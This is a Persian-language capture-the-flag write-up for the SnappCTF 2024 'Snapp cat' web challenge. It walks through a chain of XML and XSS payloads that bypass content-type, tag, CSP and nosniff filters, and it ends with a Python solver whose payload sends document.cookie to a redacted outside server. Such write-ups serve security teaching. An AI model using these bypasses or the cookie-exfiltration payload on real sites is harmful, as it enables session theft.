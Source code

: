 ```yaml
---
tags:
  - SnappCTF
  - SnappCTF-2024
  - XSS
  - CSP
  - Web
  - X-Content-Type-Options
  - Content-Type
---
```


<h1 dir="ltr">Snapp cat</h1>

<center>

![b64.png](./b64.png)

</center>

## توضیح حل چالش

کد سرور توی این سوال به ما داده شده و ما میتونیم اونو دانلود کنیم:
```js
#!/usr/bin/env node
const express = require('express')

const app = express()

app.get('/',(req,res)=>{
	let ct = (req.query.ct || 'ct').toString()
	let buf = Buffer.from(((req.query.buf || btoa('?buf=base64str')).toString()),'base64')
	if(!/^[a-z/]+$/.test(ct) || /htm|javascript/i.test(ct)){
		return res.send('na')
	}
	
	if(/<[a-z]/i.test(buf)){
		return res.send('na')
	}	
	res.setHeader('Content-Type',ct)
	res.setHeader('X-Content-Type-Options','nosniff')
	res.setHeader('Content-Security-Policy',`default-src 'self';`)
	res.send(buf)
})

app.listen(8000)
```

همون طور که میبینین سرور از ما دوتا پارامتر (ct, buf) میگیره که ct همون content-type هستش و buf محتوایی هستش که سرور به ما برمیگردونه

قبل از اینکه سرور به ما دیتایی که داریم رو برگردونه ، یک سری ولیدیشن انجام میده مثلا ما نمیتونم از content type (text/html, text/javascript) استفاده کنیم و همینطور توی دیتایی که به عنوان buf بهش میدیم هم نمیتونیم از تگ های html استفاده کنیم

ولی بعد از چند تست و بررسی های content type هایی که میتونیم روش کد جاوااسکریپت اجرا کنیم با این ها مواجه شدم:

```
text/html
application/xhtml+xml
application/xml
text/xml
image/svg+xml
text/xsl
```

و تنها content type هایی که میتونیم استفاده کنیم: text/xml, text/xsl هستش که اینجا من از text/xml استفاده کردم

ولی یه مشکلی بود ، اینکه ما نمیتونیم از تگی استفاده کنیم که حرف اولش بین a-z | A-Z باشه. ولی بعد از سرچ زدن درباره xml متوجه شدم که ما میتونیم از _ (underline) استفاده کنیم به عنوان اسم تگ

پس payload ام شد این:

```
<?xml version="1.0" encoding="UTF-8" standalone="yes"?>
<_:script xmlns:_="http://www.w3.org/1999/xhtml">XSS</_:script>
```

ولی یه مشکلی بود که اصلا حواسم بهش نبود و اون هم content-security-policy بود که نمیزاشت ما از unsafe-inline استفاده کنیم و تنها کاری که میتونستیم اینجا بکنیم این بود که بیایم یک کد جاوااسکریپت از همین origin لوید کنیم

و خب این کار هم میشد با این حرکت انجام داد:

```
<?xml version="1.0" encoding="UTF-8" standalone="yes"?>
<_:script xmlns:_="http://www.w3.org/1999/xhtml" src="?buf=XSS"></_:script>
```

ولی باز هم یک مشکل بود که اون هدر X-Content-Type-Options بود. توی توضیحات این هدر تو سایت [MDN](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/X-Content-Type-Options) گفته شده که اگه ریکویستی که ما میزنیم ، content type اش با محتوایی که قراره لوید بشه فرق داشته باشه ریکویست بلاک میشه

برای مثال فرض کنین ما content-type رو بزاریم text/css ولی محتوایی که مرورگر لوید میکنه جاوااسکریپت باشه ، که توی این شرایط ریکویست ما بلافاصله بلاک میشه

خب ما نمیتونیم از text/javascript استفاده کنیم چون که قبلش چک میکنه که javascript توی ct نباشه ولی میتونیم از application/ecmascript استفاده کنیم و اینطوری میتونیم x-content-type-options رو دور بزنیم و XSS بگیریم

و در نهایت پیلود ما میشه:
```
<?xml version="1.0" encoding="UTF-8" standalone="yes"?>
<_:script xmlns:_="http://www.w3.org/1999/xhtml" src="?buf=XSS?ct=application/ecmascript"></_:script>
```

برای حل این سوال میتونین از کد زیر استفاده کنین

```python
import requests
import base64
import sys
import html

url = 'https://b64.spchallenge.ir/'

xss_pay = """window.location='https://REDACTED?flag=' + document.cookie"""
pa = "?buf=%s&ct=%s" % (base64.b64encode(xss_pay.encode()).decode(), "application/ecmascript")
p = """<?xml version="1.0" encoding="UTF-8" standalone="yes"?>
<_:script xmlns:_="http://www.w3.org/1999/xhtml" src="%s"></_:script>""" % html.escape(pa)


buffer, ct = base64.b64encode(p.encode()).decode(), "text/xml"
d = requests.get(url, params={'buf':buffer, 'ct': ct})
print(d.url)
```

به جای REDACTED از آدرس سرور خودتون استفاده کنین و بعد از اجرای کد بالا بهتون یه آدرس میده که اون رو میتونین بدین به بات تا فلگ رو براتون بفرسته

??? success "FLAG :triangular_flag_on_post:"
    <div dir="ltr">`SNAPP{9a952b93a0f0ad23304547c4de2025fb}`</div>


!!! نویسنده
    [amir303](https://x.com/amir3O3)$~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~$تاریخ نگارش ۱۴۰۲/۱۲/۰۵